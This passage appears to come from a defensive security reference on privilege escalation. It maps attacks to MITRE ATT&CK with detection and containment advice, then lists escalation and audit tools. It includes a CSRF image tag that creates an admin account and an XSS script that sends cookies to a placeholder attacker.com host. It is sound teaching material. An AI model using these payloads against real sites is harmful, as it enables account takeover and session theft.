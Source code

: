    - **MITRE ATT&CK**: T1548 (Abuse Elevation Control Mechanism)
   - **Detection Method**: Unusual feature access, unexpected client behavior
   - **Containment Strategy**: Server-side authorization checks, never trust client-side controls

2. **Cross-Site Request Forgery (CSRF)**
   - **Description**: Tricking users into performing privileged actions without consent
   - **Common Vectors**: Missing CSRF protections, session handling flaws
   - **Example HTML**:

     ```html
     <!-- Malicious page tricking admin user into creating new admin account -->
     <img src="https://target-app.com/api/users/create?username=attacker&role=admin" style="display:none">
     ```

   - **MITRE ATT&CK**: T1204 (User Execution)
   - **Detection Method**: Unusual request patterns, missing CSRF tokens
   - **Containment Strategy**: Implement CSRF tokens, use SameSite cookies, validate request origin

3. **Cross-Site Scripting (XSS) to Cookie Theft**
   - **Description**: Injecting scripts to steal authentication cookies or session tokens
   - **Common Vectors**: Reflected or stored XSS vulnerabilities
   - **Example Attack**:

     ```html
     <!-- Malicious script to steal cookies -->
     <script>
       fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))
     </script>
     ```

   - **MITRE ATT&CK**: T1059.007 (Command and Scripting Interpreter: JavaScript)
   - **Detection Method**: Script injection attempts, unusual cookie access
   - **Containment Strategy**: Content Security Policy, output encoding, HttpOnly and Secure cookies

## Exploitation Frameworks

### Common Privilege Escalation Tools

1. **Linux Privilege Escalation**
   - **LinPEAS**: Comprehensive Linux privilege escalation script
   - **LinEnum**: Linux enumeration script for penetration testing
   - **PEASS-ng**: Privilege Escalation Awesome Scripts Suite
   - **pspy**: Unprivileged Linux process snooping
   - **BeRoot**: Privilege escalation project

2. **Windows Privilege Escalation**
   - **PowerUp**: PowerShell privilege escalation toolkit
   - **PEASS-ng**: Privilege Escalation Awesome Scripts Suite
   - **PrivescCheck**: Windows privilege escalation checking script
   - **Seatbelt**: C# project for security-oriented host survey
   - **SharpUp**: C# port of PowerUp

3. **Cloud Privilege Escalation**
   - **Pacu**: AWS exploitation framework
   - **ScoutSuite**: Multi-cloud security auditing tool
   - **Rhino Security Labs cloud tools**: Various cloud exploitation scripts
   - **Stormspotter**: Azure security visualization tool
   - **GCP audit toolkit**: Scripts for GCP privilege escalation vectors
